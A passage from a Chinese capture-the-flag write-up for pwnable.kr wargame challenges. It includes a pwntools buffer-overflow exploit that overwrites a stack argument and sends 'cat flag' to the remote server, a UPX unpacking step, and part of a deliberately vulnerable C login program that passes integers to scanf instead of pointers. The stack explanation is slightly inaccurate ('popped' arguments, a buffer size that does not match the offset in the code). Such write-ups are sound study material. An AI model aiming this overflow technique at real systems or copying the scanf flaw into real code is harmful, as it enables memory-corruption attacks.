 使用ida简单看一下，函数参数在32位下于函数调用前会被pop进栈，所以func的参数key会在返回地址之前，overflowme大小0x32，加上ebp和返回地址之后即可覆盖掉key。

```python
from pwn import *
p = make_packer(32)
r = remote('pwnable.kr', 9000)
payload = b'a' * (0x2c + 0x8) + p(0xcafebabe)
r.sendline(payload)
r.sendline(b'cat flag')
print(r.recv())
```

## 04. flag

> Papa brought me a packed present! let's open it.

本题无源代码，是一个简单的逆向题，程序有壳，使用upx解压即可。

```
sudo apt install upx
upx -d ./flag
```

之后使用ida分析，查找跟踪flag变量即可。

![image-20230326232448028](https://typora-1256197903.cos.ap-beijing.myqcloud.com/typora/image-20230326232448028.png)

![image-20230326232503763](https://typora-1256197903.cos.ap-beijing.myqcloud.com/typora/image-20230326232503763.png)

![image-20230326232517866](https://typora-1256197903.cos.ap-beijing.myqcloud.com/typora/image-20230326232517866.png)

## 05. passcode

> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
```